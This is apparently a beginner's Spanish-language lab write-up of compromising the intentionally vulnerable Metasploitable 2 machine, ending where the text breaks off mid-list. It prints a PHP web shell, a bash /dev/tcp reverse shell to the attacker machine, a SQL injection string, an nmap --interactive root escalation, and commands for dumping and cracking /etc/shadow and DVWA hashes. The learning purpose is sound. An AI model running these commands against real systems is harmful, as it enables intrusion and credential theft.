Metasploitable 2.0.0 se supone que es la máquina más fácil de todas, la típica para principiantes. Yo estoy empezando en este campo y es la primera que hago. De hecho, la acabo de completar. Simula un sistema Linux viejo con muchos, muchos servicios abiertos. Pero no todos son importantes. 
El objetivo de la máquina es:
- Practicar reconocimiento.
- Practicar enumeración.
- Practicar explotación.
- Practicar post-explotación.
Todo ello con servicios muy débiles con credenciales muy sencillas y débiles también y con unas versiones antiguas o muy antiguas que poseen vulnerabilidades grandes o extensas. 
La máquina ha sido completada dentro de un entorno controlado. Os recomiendo una NAT. Yo tengo la mía propia creada y sin problemas.

Para realizar esta máquina, que es mi primera máquina, lo suyo es primero usar Nmap para detectar qué puertos tiene, cuáles están abiertos y cuáles contienen servicios que pueden explotarse.

Detectamos la IP metiéndonos en ella primero con "msfadmin" y "msfadmin" como contraseñas. Sacamos la IP con "ifconfig". Cuando la tenemos podemos pasar a Nmap y decirle: "nmap -sS -sV -O -Pn [IP de la máquina]". Esto nos da su sistema operativo, sus puertos abiertos, qué servicios corren en ellos y otras información de interés. 
	
Podemos probar a usar un crackeador de contraseñas. Yo he probado con uno de FTP sacado de "Linux Basics for Hackers", 2ª edición. Pero era muy lento y probando varias listas de usuarios no estaba consiguiendo nada de valor. 
Sin embargo, intentando acceder de modo anónimo (anonymous: anonymous) en la máquina sí me ha dejado. 



Por tanto puedo concluir que:
- FTP: puerto 21.
- Servicio: FTP (vsFTP 2.3.4).
- Hallazgos: acceso anónimo permitido.
- Impacto: bajo, dado que sólo me deja entrar. No hay archivos ni me deja subir nada.
- Acción siguiente: explorar los siguientes servicios de todos los que tiene. 

Probé a entrar en telnet con: msfadmin y msfadmin como credenciales. Y encontré esto:



Un archivo llamado: "vulnerable" con pistas para seguir explorando: "mysql-ssl", "samba", "tikiwiki" y "twiki20030201". 
Descargué por FTP los archivos del directorio mysql-ssl(my.cnf y ca-cert-perm), pero no conseguí ninguna contraseña. 
Así que pasé a otro servicio. Decidí probar ahora samba. 
Sin embargo, a través del FTP, cuando me metí en la carpeta de Samba y traté de conseguir sus archivos me dio error:


Pasé, por tanto a la carpeta tikiwiki, que contenía tres zip. El primer .zip contenía muchas carpetas y muchos archivos .php. Era el código fuente de todo el servicio. Pero no terminaba de encontrar algo valioso. Era mucho contenido y poco interesante. Nada de usuarios ni de contraseñas. Sí venía la versión del servicio: "1.9.4". 
De aquí consideré que era mejor pasar a HTTP y probar a través de este servicio a ver si encontraba algo más interesante. 

Protocolo HTTP:
- HTTP: puerto 80.
- Servicio: aplicaciones web vulnerables expuestas en puerto 80 (un panel de PHPMyAdmin y WebDAV).
- Hallazgos: panel de PHPMyAdmin bloqueado. No se puede acceder con credenciales válidas. Está diseñado para una explotación más directa. WebDAV vulnerable.
- Impacto: creo que alto, sobre todo por parte del WebDAV, porque te permite subir archivos maliciosos (como webshells) y ejecución de código remoto (RCE).
- Acciones siguientes: 
    -Buscar de puntos débiles para poder encontrar otros servicios, archivos o directorios que puedan estar escondidos o ser más débiles. 
    -También enumerar de directorios y búsqueda de exploits conocidos. 
    -Intentar explotación controlada. 

El tikiwiki no me funcionó. No podía sacar nada de él.


Así que había que ir por otra vía. Tal vez poniendo en el navegador: "htttp://192.168.2.139/dav/"
Encontré un panel de PHPMyAdmin, que no me dejaba entrar con vulnerabilidades como: "' OR '1'='1" ", y otro panel de WebDav.


Después de estar probando, mirando, buscando servicios no me quedó otra opción que explotar algún servicio. De otro modo, no iba a avanzar en esta máquina y no iba a escalar privilegios ni nada. 
Así que intenté explotar el panel mediante Metasploit. Era la primera vez que usaba este programa así que lo inicié y busqué exploits específicos para el panel. Encontré todos estos:

De estos, el primero sería el que probaría. 
Después de poner todos los parámetros que necesitaba: LHOST, LPORT, TARGETURI, TARGET, RHOST, RPORT, me daba error. Este error en concreto: "Exploit aborted due to failure: not-found: Couldn't find token and can't continue without it. Is URI set correctly?". 
El exploit, por tanto, ha fracasado. No he conseguido aprovechar la vulnerabilidad del panel. 

Así que pasé a twiki, a ver si así podía explotar sus vulnerabilidades. 

Y no funcionó. Ni twiki ni tikiwiki. No me cargaban, no me funcionaban, no creaban sesiones. No conseguía nada. 

Pasé al WebDAV, que es un servicio para compartir archivos vía HTTP. Para eso, usé el cliente "Cadaver" de WebDAV. Pero antes de usarlo, creé un archivo php llamado: "shell.php" con una línea muy pequeña: "?php system($_GET['cmd']); ?"(nótese que le falta las <>, que no pongo por tema de antivirus)
Después accedí al navegador y probé un comando: whoami, que me dio como resultado: "www-data ", el usuario por defecto del servicio PHP. Así que la shell remota estaba montada y funcionando. 
Con lo cual, así, estaba consiguiendo ejecución remota de comandos (RCE) en la máquina vulnerable.


Pero esto era mejorable. Se podía pasar de esta ejecución remota de comandos a convertirlo en una shell remota para buscar escalar privilegios de un modo más cómodo y sencillo. Para ello, creé otro archivo llamado "rev.php", con otra línea muy sencilla: """<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.2.138/4444 0>&1'");
?>""""
Pero antes de esto, en la máquina atacante en Kali, había que usar netcat para ponerla a escuchar y recibir conexión. La shell remota no me funcionaba, no me conectaba de ningún modo. Así que no me quedaba otra que quedarme con la ejecución de comandos en navegador. 

En el panel de dvwa (que vi a través de la ejecución de comandos en el navegador, con "ls -la /var/www"), inicié sesión con las credenciales por defecto(admin:password)

En el panel, en el pie casi de página me encontré esto que explicaba muchas cosas: "Security Level: high
PHPIDS: disabled".
Para ser una máquina muy fácil, el nivel de protección era verdaderamente alto. Pero tras entrar con las credenciales, me muevo al nivel de seguridad y veo sus opciones. Lo pongo en el nivel más bajo para poder probar vulnerabilidades típicas:

(Nótese que ya sale como nivel de seguridad bajo porque la captura la he tomado después de hacer el cambio. Pero por defecto está en nivel "high".)

Después continué listando archivos, usuarios, versión del sistema operativo, etc., en la shell limitada del navegador. Y encontré binarios con SUID, es decir, binarios que se ejecutan con permisos muy grandes. Cuando se ejecutan corren con los privilegios del propietario del archivo (el cual muchas veces es Root). Desde aquí podría realizar una escalada de privilegios.

Estos fue, de hecho, los que encontré. De hecho, entre ellos, estaba una versión antigua de Nmap que corría con privilegios de root y que permitía introducir comandos con los que actuar como root. 
A la misma vez, entré en el SSH de la máquina, que tenía credenciales por defecto. 

Protocolo SSH:
- SSH: puerto 22.
- Servicio: OpenSSH 4.7p1 (Debian 8ubuntu1)
- Hallazgos: entrada con credenciales por defecto.
- Impacto: alto, puesto que puedes entrar directamente con esas credenciales y a través de ahí explorar y tratar de elevar privilegios.
- Acción siguiente: exploración y búsqueda de datos interesantes así como tomar poder de la máquina.

Tuve que forzar la conexión porque la versión era muy antigua, pero después ya entré:

Dentro del SSH, escribí: "nmap --interactive". Dentro de él invoqué una shell con: "!sh". Así me dio una shell con privilegios de Root. 

Así, pude meterme en /etc/shadow, donde se guardan las contraseñas de todos los servicios. Con: "cat /etc/shadow" saqué todo:

Estos los copié desde la máquina víctima a un texto llamado: "shadow.txt" y luego forcé a scp para traérmelos a mi máquina atacante. Dentro de la máquina atacante, lo que quedaba era usar John The Ripper, el crackeador de contraseñas por excelencia que viene con Kali. Le tenía que pasar la lista que iba a usar para crackear los hashes (por ejemplo, rockyou.txt).
Sacó tres primeras contraseñas:

Pero las más jugosas estaban por llegar. Tenía ganas de poder acceder ya a MySQL y ver lo que había dentro. Pero al llegar al final no consiguió crackear las 4 contraseñas que quedaban. Probé una lista nueva: "fasttrack", pero tampoco lo consiguió. 
Estos 3 usuarios que sí tenía (a saber, "sys", "klog" y "service") eran cuentas de servicio del sistema. 
Probé "sys" y me dejó entrar con su contraseña. "Klog" me dejó entrar pero se cierra enseguida. "Service" me dejaba entrar pero no tenía archivos dentro. 
Aun así, nada interesante o de valor para escalar privilegios. 
Intenté ir ahora hacia bases de datos. Cogí, para ello, los puertos asociados a MySQL y PostgreSQL y les hice un barrido con nmap. Pero de primeras no salía nada. 
Esto revelaba que PostgreSQL no estaba, no salía. MySQL parecía estar filtrado. Pero decidí hacer un análisis con mayores privilegios por parte de mi máquina atacante para ver si realmente era accesible el servicio.

Y lo era. Ahora sí salía abierto. Así que debía poder acceder. Intenté entrar. Puse: "mysql -u root -h 192.168.2.139", pero no me dejó. Me pedía contraseña y no me valía ninguna de las que había crackeado. El problema, sobre todo era este: "ERROR 2026 (HY000): TLS/SSL error: wrong version number". No me dejaba entrar porque el cliente moderno de MySQL intentaba negociar automáticamente el TLS/SSL con el de la máquina víctima. Así que había que esquivarlo, soslayarlo. ¿Cómo? con: "--skip-ssl" al final del comando. Así, por ejemplo: "mysql -u msfadmin -h 192.168.2.139 --skip-ssl". 
Probando con este usuario me salió: "ERROR 1045 (28000): Access denied for user 'msfadmin'@'192.168.2.138' (using password: NO)".  El usuario existía, pero no me permitía entrar sin contraseña. Así que tenía que buscar una contraseña que sirviera. ¿Tal vez "msfadmin"? 
Nada.
Pero desde la conexión SSH a la máquina víctima, intentando listar los directorios web vi cómo funcionaban: ![[funcionamiento de directorios web.jpg]]
Esto quería decir que desde SSH de la máquina víctima podía entrar en MySQL como root sin necesidad de contraseña. Lo intento y me sale esto:


Protocolo MySQL:
- MySQL: puerto 3306.
- Servicio: MySQL versión 5.0.51-a-3ubuntu5 (Ubuntu)
- Hallazgos: entrada como root directamente, sin contraseña.
- Impacto: alto. No tiene ningún tipo de protección y, por tanto, puedes tomar control de la base de datos.
- Acción siguiente: 
   -Enumerar usuarios y contraseñas a través de las que pivotar hacia otros servicios. 
   -En escenario real: identificar y extraer datos comprometidos que pudieran ser de utilidad (como credenciales, información personal, etc.).

Estaba ya dentro. Ahora ya podía listar las bases datos, sus usuarios y los hashes de sus contraseñas. En este caso, saqué las pertenecientes a DVWA:

Aquí estaba. Para enumerar las bases, por cierto, usé este comando: "SHOW DATABASES; USE dvwa; SHOW TABLES; SELECT * FROM users;".
Ahora había que proceder a guardar estos hashes y ver si los podía crackear. Pero conseguir copiar estos usuarios y contraseñas y pasarlos a mi máquina virtual atacante para que John The Ripper consiguiera crackearlos sería más difícil. O yo no atinaba o me daba todo tipo de errores. 
Lo intenté muchas veces desde MySQL sin conseguirlo, pero al hacerlo desde la shell, fuera de MySQL, sí lo conseguí por fin. Extraje toda la tabla y la pude pasar a mi máquina atacante. Con esto conseguí el archivo: "dvwa_users.txt". El comando que sí me funcionó fue: "mysql -u root -e "SELECT * FROM dvwa.users;" > /home/msfadmin/dvwa_users.txt". Antes lo intenté en "/tmp" y no se copiaba nada, no se creaba ningún archivo. 

Ahora intentaría, otra vez, usar John The Ripper para ver si conseguía crackear las contraseñas. 
Si se quiere la tabla más limpia, sólo con credenciales, se puede así: "mysql -u root -e "SELECT user, password FROM dvwa.users;" > /home/msfadmin/dvwa_hashes.txt".
Y entonces te queda: 

Esta última tabla que se ve en el archivo, la he adaptado para dejarla más lista para John. Así: "admin:5f4dcc.......
...............:............
etc."
Sin campos de user y password, junto y con dos puntos.
Dentro de John, ya que el formato es antiguo, tras probar varios (incluido el específico de MySQL) que me fallaron, este sí me sirvió: "raw-md5". El comando como tal es: "john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt dvwa_hashes.txt". (el 1 es porque el archivo lo hice dos veces, de los dos modos, entonces tenía "dvwa_hashes" y "dvwa_hashes1")
El resultado: 

Ahora podía intentar probar estos usuarios. Volví al phpMyAdmin a ver si con ellos podía entrar. Pero nada, seguí sin poder hacerlos. De aquí saco la conclusión de que la base de datos no valía para todos los servicios o, desde luego, para el panel que menciono. Estos usuarios sólo valían para DVWA. phpMyAdmin, SSH y el resto de servicios, incluido MySQL tienen credenciales y usuarios distintos. 
Los probé todos en DVWA y funcionaron. Los propios usuarios de MySQL no tenían ninguna contraseña asignada. Sólo había tres usuarios. ![[usuarios de mysql verdaderos.jpg]]
No estos usuarios, así, la verdad es que son muy inseguros. Accedí a guest sin contraseña:

Listé las tablas que tenía y eran estas:
